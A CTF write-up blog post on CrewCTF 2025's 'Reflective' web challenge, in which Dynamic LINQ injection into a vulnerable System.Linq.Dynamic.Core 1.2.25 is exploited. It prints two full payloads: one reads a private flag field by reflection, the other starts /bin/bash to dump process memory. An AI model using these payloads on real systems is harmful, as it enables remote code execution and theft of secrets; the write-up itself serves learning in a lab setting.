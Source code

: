 ```yaml
---
title: "CrewCTF 2025 – Reflective (Web)"
date: 2025-09-22 23:30:00 +0300
categories: [CTF, Web]
tags: [CrewCTF, .NET, Reflection, DynamicLINQ, RCE, Writeup]
description: "Writeup for Reflective (Web) challenge from CrewCTF 2025 where I discussed two unintended solutions."
image: /assets/img/ctf/CrewCTF.png
---
```


## TL;DR

The app had two critical issues: the `/Notes` search built a Dynamic-LINQ query by concatenating user input (`"Title.Contains(\"" + title + "\")"`) while using a vulnerable `System.Linq.Dynamic.Core v1.2.25`, which allowed injected expressions to use .NET reflection — letting an attacker traverse assemblies, read the private static `_flag` field from `BookKeeper.NotesManager`, and `Invoke` `set_Title` on a note so the flag appears in the UI; and the package also exposed an RCE vector via Dynamic-LINQ which could be used to start a process (e.g., run `dotnet-dump collect -p 1 -o dump --type Full`) and dump the .NET process memory to grep the flag.

---

**Challenge:** [Reflective](https://2025.crewc.tf/challenges#Reflective-14)<br>**Author:** [Instellate](https://instellate.xyz/)<br>**Solves**: 23

Greetings!

I participated in CrewCTF this year, one of the most challenging yet enjoyable CTFs I've done. This particular challenge offered multiple possible attack paths, but it remained one of the toughest on the board, with only 23 teams managing to solve it.

---

## Opening the Box

First thing I always do is check the Dockerfile. This challenge looked like a .NET 9 (ASP.NET Core) web app — it exposed port **8080** and ran on `mcr.microsoft.com/dotnet/aspnet:9.0`. I don’t know .NET that well, so rather than read every line of code, I spun up an instance to see how it behaved.

Two endpoints stood out quickly:

- `/Notes` — lists all notes and supports searching.
- `/Notes/create` — a simple form to create notes.

Naturally I wanted to see what drove those endpoints, so I hunted down `NotesManager.cs`. That’s where things started to get interesting.

---

## Peeking Inside the .NET Project

This code snippet is from `NotesManager.cs` file:

```csharp
public IEnumerable<Note> GetLatestNotes(string title, int page = 0)
{
    string query = "Title.Contains(\"" + title + "\")";

    return this._notes
        .AsQueryable()
        .OrderByDescending(n => n.CreatedAt)
        .Where(query)
        .Skip(page * 10)
        .Take(10);
}
```

That’s straight-up string concatenation of user input — a red flag. It turned out the `.Where(query)` uses **Dynamic LINQ**, which parses and compiles user-supplied expressions. I’d never used it before, so I went to learn how it works and which version the app used.

`Reflective.csproj` showed:

```xml
<PackageReference Include="System.Linq.Dynamic.Core" Version="1.2.25" />
```

That version is ancient compared to the current `1.6.x` line, and the [NuGet page](https://www.nuget.org/packages/System.Linq.Dynamic.Core/1.2.25) flagged vulnerabilities. Two stood out:

1. **Remote Code Execution** via Dynamic LINQ (critical). [here](https://github.com/advisories/GHSA-w65q-jcmv-28gj)
2. **Property reflection** allowing access to reflection types and static properties/fields (high). [here](https://github.com/advisories/GHSA-4cv2-4hjh-77rx)


The second one fit the challenge’s name — *Reflective* — so I dug into it. The advisory noted that versions before `1.6.0` allowed remote access to reflection types and static properties/fields from within injected expressions. That sounded promising, but I couldn’t immediately craft a working payload. Thankfully my teammate **phisher305** cracked it and shared the payload after the CTF ended — huge thanks to him. I’ve broken it down below.

---

## How the Payload Works

Here’s the payload we used:

```
") and true && it.GetType().Assembly.DefinedTypes.Where(t=>t.FullName=="Reflective.Note").First().DeclaredMethods.Where(m=>m.Name=="set_Title").First().Invoke(
 it,
 new System.Object[]{
   (
     ("").GetType().Assembly
       .DefinedTypes.Where(t=>t.FullName=="System.Reflection.Assembly").First()
       .DeclaredMethods.Where(m=>m.Name=="CreateInstance").First()
       .Invoke(
         ("").GetType().Assembly
           .DefinedTypes.Where(t=>t.FullName=="System.Array").First()
           .DeclaredMethods.Where(m=>m.Name=="GetValue").First()
           .Invoke(
             ("").GetType().Assembly
               .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
               .DeclaredMethods.Where(m=>m.Name=="GetAssemblies").First()
               .Invoke(
                 ("").GetType().Assembly
                   .DefinedTypes.Where(t=>t.FullName=="System.AppDomain").First()
                   .DeclaredProperties.Where(p=>p.Name=="CurrentDomain").First()
                   .GetValue(null),
                 new System.Object[]{}
               ),
             new System.Object[]{ new [] { 97 } }
           ),
         new System.Object[]{ "BookKeeper.NotesManager" }
       )
   ).GetType().Assembly
     .DefinedTypes.Where(tt=>tt.Name=="NotesManager").First()
     .DeclaredFields.Where(f=>f.Name=="_flag").First()
     .GetValue(null).ToString()
 }
)==null and Title.StartsWith("
```

Breakdown:

- **Injection entry:** The payload first closes the expected expression and injects a new Dynamic-LINQ expression (`) and true && ...`) so the attacker controls the whole `Where(...)` string — classic injection.
- **`it` is the pivot:** Inside the `Where` predicate, `it` refers to the current `Note` object. The payload starts reflection traversal from `it` (e.g. `it.GetType().Assembly.DefinedTypes`) as an entrypoint to the process’s types.
- **Bootstrapping reflection with `""`:** The `("").GetType().Assembly` trick obtains a `System.Type` (string’s type) and its `Assembly` without `typeof(...)` or hardcoded names, giving access to reflection APIs (`DefinedTypes`, `DeclaredMethods`, `DeclaredFields`, etc.).
- **Find the target assembly:** It calls `AppDomain.CurrentDomain.GetAssemblies()` and picks an assembly using `Array.GetValue(...)` with an index (your payload used `new [] { 97 }`). The index is used because the right assembly isn’t known reliably; on that instance index 97 points to the challenge assembly.
- **Create instance of target manager:** With that `Assembly`, the payload calls `Assembly.CreateInstance("BookKeeper.NotesManager")` to obtain a `NotesManager` object from the target code — the pivot to reach the `_flag`.
- **Read the `_flag` via reflection:** From the `NotesManager` type/instance it enumerates `DeclaredFields`, finds the `_flag` static field, and calls `GetValue(null)` (null because it’s static) to retrieve the flag string, then `.ToString()`.
- **Plant the flag into the UI:** The payload then finds and invokes `set_Title` on the current `it` (`Invoke(it, new object[]{ <flagString> })`), setting the note’s `Title` to the flag so the app will display it.
- **Keep the predicate valid:** Finally it appends a boolean expression (e.g. `Title.StartsWith("...")`) so the `Where(...)` remains a valid predicate and the modified row is returned/rendered. In short: read the flag by reflection, write it into a visible `Note` field, and return a row so the UI shows the flag.

```
crew{dotnet_reflection_is_weird_is_it_not__why_do_i_care}
```

---

## Another Unintended Route

From the CrewCTF Discord I learned other unintended solutions relying on the same vulnerabilities mentioned earlier.

One neat approach (shoutout to **siunam321**) used a Dynamic-LINQ injection to achieve RCE, then invoked `dotnet-dump` from the container to dump the .NET process memory (PID 1) and grep the flag from the memory dump. The payload essentially kicked off a shell/Process start that ran `dotnet-dump collect -p 1 -o dump --type Full`. Once the dump finished, they inspected it and found the flag in plaintext.

 ```
 ") && "".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "/bin/bash;-c \"./dotnet-dump collect -p 1 -o dump --type Full"".Split(";".ToCharArray())).GetType().ToString() == ("
 ```

This route leaned on an RCE path for the library (CVE-style PoC) rather than the reflection-only path we used to write the flag directly into a `Note` title. Both are valid — just different flavors of exploitation.

---

## Final Thoughts

This challenge was an absolute blast. It introduced me to Dynamic LINQ and a weird corner of .NET reflection I hadn’t seen before. The combination of reflection APIs, an old vulnerable library, and a tiny UI surface made for a satisfying puzzle: once you spot the injection point, the rest is creative traversal and a bit of trial-and-error.

Big thanks to my teammate **phisher305** for the payload and to everyone in the discord who discussed alternate approaches. I learned a ton and can’t wait to play with these ideas further.

I still haven’t managed to get the intended solution in a way I can write about properly — hopefully I’ll be able to later.

Thanks for reading!